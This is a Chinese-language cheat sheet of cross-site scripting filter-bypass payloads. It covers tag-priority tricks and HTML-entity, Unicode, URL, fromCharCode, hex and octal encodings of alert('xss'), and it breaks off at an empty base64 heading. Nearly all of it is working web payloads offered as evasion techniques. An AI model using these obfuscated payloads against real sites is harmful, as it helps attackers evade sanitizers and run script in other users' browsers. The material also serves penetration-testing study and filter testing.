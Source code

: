 ```html
可利用注释、标签的优先级等
1.<<script>alert(1);//<</script>
2.<title><img src=</title>><img src=x onerror="alert(`xss`);"> //因为title标签的优先级比img的高，所以会先闭合title，从而导致前面的img标签无效
3.<SCRIPT>var a="\\";alert(1);//";</SCRIPT>
```

#### 编码绕过

##### HTML实体编码绕过

```html
10进制实体编码：
<img src=1 onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;">

16进制实体编码：
<img src=1 onerror="&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x22;&#x78;&#x73;&#x73;&#x22;&#x29;&#x3B;">
```

##### Unicode编码绕过

```html
<img src='a' onerror="eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003b')">
```

##### escape编码绕过（URL编码）

```html
<img src="a" onerror="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))">
```

##### ASCII码绕过

```html
<img src="b" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">
```

##### 十六进制编码绕过

```html
<img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>
```

**这里就是普通的十六进制编码转换，像`61`就是`a`转换过来的,`6c`是`l`,`65`是`e`，依次下去就是`alert('xss')`。只不过每个前面都要加`\x`，因为Javascript里`\x`开头的通常是16进制编码的数据。这里注意`\x`的`x`是小写不能大写。**

##### 八进制编码绕过

```html
<script>eval("\141\154\145\162\164\50\57\170\163\163\57\51");</script> 
```

**这里转换的也是`alert('xss')`。具体过程是先将`a`转换ASCII码十进制为97，再转换成8进制就为141了。记得141前面要加`\`，因为Javascript里`\`开头的通常是8进制编码的数据。后面依此类推。**

##### base64绕过

